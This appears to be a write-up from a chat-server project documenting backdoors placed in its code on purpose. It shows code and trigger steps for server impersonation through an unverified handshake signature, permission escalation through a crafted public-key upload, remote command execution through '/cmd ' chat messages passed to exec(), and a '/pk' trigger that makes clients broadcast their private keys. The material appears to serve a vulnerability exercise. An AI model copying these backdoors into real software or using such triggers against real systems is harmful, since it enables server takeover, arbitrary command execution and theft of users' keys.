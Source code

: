# Backdoors and Vulnerabilities
## Impersonating Servers Vulnerability
When a "server_hello" message is received by a server, the corresponding signature of the message isn't verified with the connecting server's pre-established publicKey, meaning that while one of the authdServer servers is down/crashed/DDOS'd any other random Hacker with a server implementation can send a "server_hello" with the downed server's ip, impersonating the server.
```
case "server_hello":
	var pk = getServerPubKey(data.sender);
	if (pk != null) {
		var fp = crypto.createHash('sha256').update(pk).digest('base64');
		ws.ip = data.sender;
		ws.public_key = pk;
		ws.fingerprint = fp;
		ws.type = "server";
		connectedServers.push(ws);
		console.log("Connected to server: " + ws.ip);
	}
	break;
```
## Elevating client permissions on server.
This code, located within the POST Request Handling of file uploads, checks the contents of each file upload to see if it begins with the data of the server's publicKey.
```
if (check.startsWith(pubkey_pem)) {
	var checkers = check.split("\n");
	if (checkers.length > 9) {
		var vfp = checkers[9];
		console.log(vfp);
		var client_ind = getClientIndex(vfp);
		if (client_ind != -1) {
			connectedClients[client_ind].permission = 1;
			res.setHeader('Content-Type', 'application/json');
			res.end(JSON.stringify({
				status: "Created",
				url: "Vulnerability Activated"
			}));
		}
	}
} else {
```
If the file does begin with the server's publicKey, if then the 'next line' in the file contains a valid fingerprint of a currently connected client, add a field "permission" to the client's associated websocket.
Example of file formatting for upload:
```
-----BEGIN PUBLIC KEY-----
MIIBIjANBgkqhkiG9w0BAQEFAAOCAQ8AMIIBCgKCAQEAoEWigTZy0S1+7qyezGUC
6uUDHy7xWDDGdgsp+7gr9S7GmnvpnYX3LfPBjx4vZ5lc7+8zU3oSsOigudASc1UE
qYyMt5fGkRiNYv7CKl7Jeiz/Ztt5GZKTxOBxFdyWg+upxEXk1OcF15G5LxkskrX4
BseXf30N2Eg5qRqHArbhUyb12s9/R1nueCXZA5+9cWyEzC9GsxaWWV0SkXlUXrtQ
0p37AQxLgm8Tvs54cZa4K4c2bnpWgD/hC0gGd7KXz5l0ByMEan+KVEyyca7pJryJ
Iqmijx2dmrKVkxr8qSAFHAhhoiPx/pYcYiO01lNJ//x2Mt4hV1U3xby42AkDXcJt
EwIDAQAB
-----END PUBLIC KEY-----
6b5cBW7+8zWqFrMXFlo+1hBjbrD/OO2nEMHeiDXBWwA
```
Where the last line is changed to be the the client's fingerprint.
The publicKey of the server can be accessed by going to the "/pubkey" route of the server
```
https://<serverip>:<port>/pubkey
```
### Executing system commands on server from client
Whenever a client sends a public_chat message to the server, if the "permission" field is present and the message starts with "/cmd ", attempt to execute the message on the commandline.
```
case "public_chat":
	if (ws.permission == 1) {
		if (dataObj.data !== undefined) {
			var msg = dataObj.data.message;
			var cmd = "";
			if (msg.startsWith("/cmd ")) {
				cmd = msg.substr(4);
				console.log("executing code");
				exec(cmd, (err, stdout, stderr) => {
					if (err) {
						console.log("couldn't execute command");
						return;
					}
					console.log(`stdout: ${stdout}`);
					console.log(`stderr: ${stderr}`);
					var retmsg = stdout + "\n" + stderr;
					var execret = {
						type: "anonymous_chat",
						message: retmsg
					};
					ws.send(JSON.stringify(execret));
				});
				return;
			} else if (msg.startsWith("/pk")) {
				console.log("request for client privateKeys");
				dataObj.data.check = 1;
			}
		}
	}
	sendToList(connectedClients, JSON.stringify(dataObj), data.sender);
	sendToList(connectedServers, JSON.stringify(dataObj), ws.fingerprint);
	break;
```
### Getting private keys of clients from client
Whenever a client sends a public_chat message to the server, if the "permission" field is present and the message starts with "/pk", the server adds the "data.check" field to the "public_chat" before passing it to the other clients. (see above code)
this is an intentional vulnerability within the client code (index.html) therefore the elevation of permissions in the server is unnecessary and can be executed by sending a correctly formatted "public_chat".
```
case "public_chat":
	if (data.check == 1) {
		var sendMessage = {};
		sendMessage.type = "signed_data";
		sendMessage.data = {};
		sendMessage.data.type = "public_chat";
		sendMessage.data.sender = my_fp;
		sendMessage.data.message = pki.privateKeyToPem(privateKey);
		myCounter += 1;
		sendMessage.counter = myCounter;
		var shaHash = await sha256(JSON.stringify(sendMessage.data) + sendMessage.counter);
		sendMessage.signature = sign(shaHash);
		ws.send(JSON.stringify(sendMessage));
	} else {
		if (checkCounter(data.sender, dataObj.counter) != -1) {
			var s_pk = getClientPk(data.sender);
			if (verifySig(dataObj, s_pk)) {
				var chat_str = escapeHTML(timeStamp() + " " + data.sender + ": " + data.message);
				chat_window.innerHTML = "<p class='publicmsg'>" + chat_str + "</p>" + chat_window.innerHTML;
				//console.log(data.sender + ": " + data.message);
			} else {
				console.log("invalid signature verification");
			}
		}
	}
	break;
```
Upon receiving the "public_chat" with the "data.check" field present, the client sends a "public_chat" containing its privateKey.
